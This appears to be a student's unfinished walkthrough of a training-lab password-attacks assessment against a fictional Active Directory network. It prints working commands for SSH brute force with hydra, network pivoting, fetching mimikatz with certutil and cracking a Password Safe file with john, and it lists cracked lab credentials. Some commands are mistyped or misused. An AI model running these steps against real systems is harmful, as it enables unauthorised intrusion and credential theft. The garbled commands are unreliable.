




# Skills Assessment - Password Attacks

## The Credential Theft Shuffle

[The Credential Theft Shuffle](https://adsecurity.org/?p=2362), as coined by `Sean Metcalf`, is a systematic approach attackers use to compromise Active Directory environments by exploiting `stolen credentials`. The process begins with gaining initial access, often through phishing, followed by obtaining local administrator privileges on a machine. Attackers then extract credentials from memory using tools like Mimikatz and leverage these credentials to `move laterally across the network`. Techniques such as pass-the-hash (PtH) and tools like NetExec facilitate this lateral movement and further credential harvesting. The ultimate goal is to escalate privileges and `gain control over the domain`, often by compromising Domain Admin accounts or performing DCSync attacks. Sean emphasizes the importance of implementing security measures such as the `Local Administrator Password Solution (LAPS)`, enforcing `multi-factor authentication`, and `restricting administrative privileges` to mitigate such attacks.
## Skills Assessment

`Betty Jayde` works at `Nexura LLC`. We know she uses the password `Texas123!@#` on multiple websites, and we believe she may reuse it at work. Infiltrate Nexura's network and gain command execution on the domain controller. The following hosts are in-scope for this assessment:

|Host|IP Address|
|---|---|
|`DMZ01`|`10.129.*.*` **(External)**, `172.16.119.13` **(Internal)**|
|`JUMP01`|`172.16.119.7`|
|`FILE01`|`172.16.119.10`|
|`DC01`|`172.16.119.11`|
#### Pivoting Primer


# Question

```shell
unsername-anarchy Betty Jayde > usernames.txt
hydra -L usernames.txt -p 'Texas123!@#' ssh://10.129.234.116

[DATA] attacking ssh://10.129.234.116:22/
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#
```

```shell
ssh jbetty@IP -p Texas123!@#
```

I looked for lots of attack vector 


We have to set a stablished connection with the internal network

```shell
sshuttle -r jbetty@10.129.234.116 172.16.119.0/24 -v
# In other terminal
# ping is disabled but rdp no
xfreerdp /v:172.16.119.7 /u:hwilliam /dynamic-resolution /p:dealer-screwed-gym1 
# Password found
dealer-screwed-gym1
```

```powershell
certutil -urlcache -split -f http://172.16.119.13:8081/mimikatz.exe C:\Temp\mimikatz.exe


```





```shell
file Employee-Passwords_OLD.psafe3
Employee-Passwords_OLD.psafe3: Password Safe V3 database
```

```shell
locate '*2john' 
/usr/bin/pwsafe2john Employee-Passwords_OLD.psafe3 > psafe3.hash
john --wordlist=/usr/share/wordlists/rockyou.txt psafe3.hash
---
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 262144 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
michaeljackson   (Employee-Passwords_OLD)     
1g 0:00:01:17 DONE (2026-10-16 18:59) 0.01290g/s 132.1p/s 132.1c/s 132.1C/s total90..1asshole
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I used Password Safe 3 app to got the next credencials





| Nombre         | Usuario  | Contraseña            |
| -------------- | -------- | --------------------- |
| Betty Jayde    | jbetty   | xiao-nicer-wheels5    |
| David Brittni  | bdavid   | caramel-cigars-reply1 |
| Tom Sandy      | stom     | fails-nibble-disturb4 |
| William Hallam | hwilliam | warned-wobble-occur8  |
